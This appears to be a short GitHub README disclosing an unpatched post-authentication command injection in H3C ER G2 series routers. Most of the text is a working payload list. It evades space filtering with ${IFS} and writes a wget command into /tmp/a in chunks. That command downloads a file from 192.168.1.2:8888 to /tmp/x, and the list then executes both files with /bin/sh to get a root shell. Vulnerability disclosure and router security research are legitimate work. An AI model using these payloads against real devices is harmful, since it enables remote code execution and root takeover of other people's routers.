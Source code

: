 The bug affects the H3C ER G2 series routers.   
I reported the bug several months ago and H3C didn't reply me... SO...

## BUG
The bug is a post-cmdi, but need a trick to exploit it.   
The length of string to injection is limited and no curl cmd to use, so we can't use normal exploit way such as wget xxx and chmod xxx and then xxx.   
We can print the cmd to a file and then to execute it.
```
cmds = ["echo${IFS}-n${IFS}'wget${IFS'>>/tmp/a", 
        "echo${IFS}-n${IFS}'}-O${IFS}'>>/tmp/a",
        "echo${IFS}-n${IFS}'/tmp/x${I'>>/tmp/a",
        "echo${IFS}-n${IFS}'FS}http:/'>>/tmp/a",
        "echo${IFS}-n${IFS}'/192.168.'>>/tmp/a",
        "echo${IFS}'1.2:8888/a'>>/tmp/a",
        "/bin/sh${IFS}/tmp/a",
        "/bin/sh${IFS}/tmp/x"]
```
And you can get a shell with root-privilege.

